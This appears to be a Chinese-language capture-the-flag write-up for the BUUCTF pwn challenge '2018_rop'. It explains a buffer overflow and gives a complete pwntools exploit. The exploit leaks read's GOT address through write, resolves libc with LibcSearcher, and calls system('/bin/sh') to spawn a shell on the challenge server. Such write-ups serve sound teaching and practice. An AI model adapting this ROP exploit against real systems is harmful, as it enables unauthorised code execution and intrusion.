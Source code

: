 拖入IDA分析

![](img/f88a879c99fcef5db8c651ef332b5a5e.png)

直接给了一个很大的溢出，但是没有直接getshell的gadget，故考虑构造rop链先泄露read函数真实地址再使用LibcSearcher寻找Libc版本最后构造rop链执行`system("/bin/sh")`以getshell

构造exp如下：

```
from LibcSearcher import *
from pwn import *
p = remote('node3.buuoj.cn',28409)#process('./2018_rop')
e = ELF('./2018_rop')
offset = 0x88
read_got = e.got['read']
write_plt = e.plt['write']

payload1 = offset * b'A' + p32(0xdeadbeef) + p32(write_plt) + p32(0x8048474) + p32(1) + p32(read_got) + p32(4)

p.sendline(payload1)
read_str = p.recv(4).ljust(4,b'\x00')
print(read_str)
read_addr = u32(read_str)

libc = LibcSearcher('read',read_addr)
libc_base = read_addr - libc.dump('read')
sys_addr = libc_base + libc.dump('system')
sh_addr = libc_base  + libc.dump('str_bin_sh')

payload2 = offset * b'A' + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr)
p.sendline(payload2)
p.interactive() 
```

![](img/4d85cb891c357a162dab33e8e199c80f.png)
